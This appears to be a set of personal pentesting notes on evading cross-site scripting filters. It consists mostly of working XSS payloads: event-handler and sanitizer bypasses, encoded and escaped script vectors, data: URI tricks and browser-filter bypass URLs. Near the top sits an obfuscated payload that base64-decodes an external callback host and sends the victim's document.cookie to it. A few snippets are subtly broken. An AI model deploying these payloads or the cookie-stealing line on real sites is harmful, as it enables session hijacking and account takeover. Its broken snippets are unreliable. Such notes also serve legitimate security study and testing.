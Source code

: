# filter evasion

[XSS Filter Evasion - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

[HTML5 Security Cheatsheet](https://html5sec.org/)

# exfiltrate 

`x%22,%22results%22:[]};fetch(%27https://%27%2batob(%27Zm01N3BmMXNkbmcxMnZmNTU4emdjY3MxZHNqajdndjUub2FzdGlmeS5jb20v%27)%2beval(atob(%27ZG9jdW1lbnQuY29va2ll%27)),{mode:'no-cors'});//`

# Bypassing weak script tag filters

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled.png)

# Using HTML attributes for script exec

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%201.png)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%202.png)

SWF tool which could be used in rare cases:[https://github.com/evilcos/xss.swf](https://github.com/evilcos/xss.swf)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%203.png)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%204.png)

```php
//common filter used for on events
(on\w+\s*=)

//we can easily bypass this thanks to some browser weirdness
<svg/onload=alert(0)>
<svg//////onload=alert(0)>
<svg id=x;onload=alert(0)>
<svg id=`x`onload=alert(0)>
```

```html
<!-- the upgraded filter still  has a weakness because it converts the conrol char to a space. -->
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)

// so we could still bypass this using control chars
<svg onload%09=alert(0)> //this even works with safari
<svg %09onload=alert(0)>
<svg %09onload%20=alert(0)>
<svg onload%09%20%28%2C%3B=alert(0)>
<svg onload%0B=alert(0)> //this only works in ie
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%205.png)

online test to verify: [http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name](http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name)

# Valid Regex filter (2020)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%206.png)

# Character escaping to bypass keyword filters

```html
<script>\u0061lert(0)</script>
<script>\u0061\u006Cert(0)</script>
```

### Octal Escape

```html
<img src=x onerror="eval('\141lert(0)')">
<img src=x onerror="eval('\141\154\145\162\164\50\60\51')">
```

[https://cyberchef.cybertap.ch/#recipe=To_Octal('Space')Escape_string('Everything','Single',false,false,false/disabled)Find_/_Replace({'option':'Regex','string':' '},'\\',true,false,true,false)&input=YWxlcnQoMCk](https://cyberchef.cybertap.ch/#recipe=To_Octal('Space')Escape_string('Everything','Single',false,false,false/disabled)Find_/_Replace(%7B'option':'Regex','string':'%20'%7D,'%5C%5C',true,false,true,false)&input=YWxlcnQoMCk)

### Hex Escape

```html
<img src=x onerror="eval('\x61lert(0)')">
<img src=x onerror="eval('\x61\x6c\x65\x72\x74\x28\x30\x29')">
```

### Hex Numeric character transfer

```html
<img src=x onerror="eval('&#x0061lert(0)')">
<img src=x onerror="eval('&#97lert(0)')">
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%207.png)

# String construction

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%208.png)

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%209.png)

### Pseudo Protocol

In addition to the `javascript:` protocol there is also `data:` as well as `vbscript:` 

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%2010.png)

```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgwKTwvc2NyaXB0Pg==">
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%2011.png)

If sanitization is used to remove parts of or entire html tags we can try and bypass this filter with nested or multiple tags.

```html
<scr<script>ipt>alert(0)</script>
<scr<iframe>ipt>alert(0)</script>
```

### Escaping quotes

```html
// lets say there is sanitization that onlz sanitizes quotes but not backslashes we can try and inject code this way:

myinput\' alert(0);//

//tis string will be parsed and after the sanitization it will lok like this:

myinput\\' alert(0);//

//only the backslash is escaped thus allowing us to inject the quote thus allowng us to execue the alert code
```

```jsx
/any string with spaces/.source -> 'any string with spaces'

YW55IHN0cmluZyB3aXRoIHNwYWNlcw.toString(36)

window.atob('YW55IHN0cmluZyB3aXRoIHNwYWNlcw==') -> 'any string with spaces'

String.fromCharCode(61,6c,65,72,74)

decodeURI('alert%280%29') -> 'alert(0)'
decodeURIComponent('alert%280%29') -> 'alert(0)'

//we can also combine methods to take this further:
unescape(/%u0061%u006C%u0065%u0072%u0074%u0028%u0030%u0029/.source) -> 'alert(0)'
eval(unescape(/%u0061%u006C%u0065%u0072%u0074%u0028%u0030%u0029/.source)) -> alert(0)

decodeURI(/alert%280%29/.source) -> 'alert(0)'
decodeURIComponent(/alert%280%29/.source) -> 'alert(0)'
```

![Untitled](filter%20evasion%20896d510035f540a0ae245453b758f3cd/Untitled%2012.png)

## Escaping Parentheses ()

There is a fun way to pass code to a function without using an parentheses and it abuses the window.onerror func.

```jsx
<img src=x onerror="window.onerror=eval;throw'alert\x280\x29'">
// this will overwrite the default onerror function as soon as teh image faisl to load. then we immidiately throw and error with a strin argument. the eval function we assigned to the default error handler will the evaluate our string thus executing the code.

onerror=alert;throw 1;

//this simpler version will pass the error object to the alert function, be aware some browser pass Uncaugth into the arguments.

//of course we can also encode the payload passed via throw
```

# Bypassing Browser Filters

### Injection inside HTML Tag

One of themost common Reflectd XSS vectors which is blocked is:

```jsx
http://victim.site/inject?x=<svg/onload=alert(0)>
```

Just by removing the final `>` we can bypass most browsers:

```jsx
http://victim.site/inject?x=<svg/onload=alert(0)
```

### Injection inside HTML Tag Attributes

```jsx
http://victim.site/inject?x=franco"><svg/onload=alert(0)>
```

This is also blocked by all browsers

On webkit browsers we can bypass this using base64

```jsx
http://victim.site/inject?x=franco"><a/href="data:text/html;base64,YWxlcnQoMCk=">click<!--
```

### Injecting inside script Tags

```jsx
http://victim.site/inject?x=franco";alert(0);//
```

This works in most browsers except IE

### Injecting inside event attributes

event attributes are not inspected by browser filters.

```jsx
http://victim.site/inject?x=franco";alert(0)
```

### DOM Based

DOM based XSS are not inspected by browser filters

WAF evasion owasp filters:

[owasp-modsecurity-crs/modsecurity_crs_41_xss_attacks.conf at master · SpiderLabs/owasp-modsecurity-crs](https://github.com/SpiderLabs/owasp-modsecurity-crs/blob/master/base_rules/modsecurity_crs_41_xss_attacks.conf)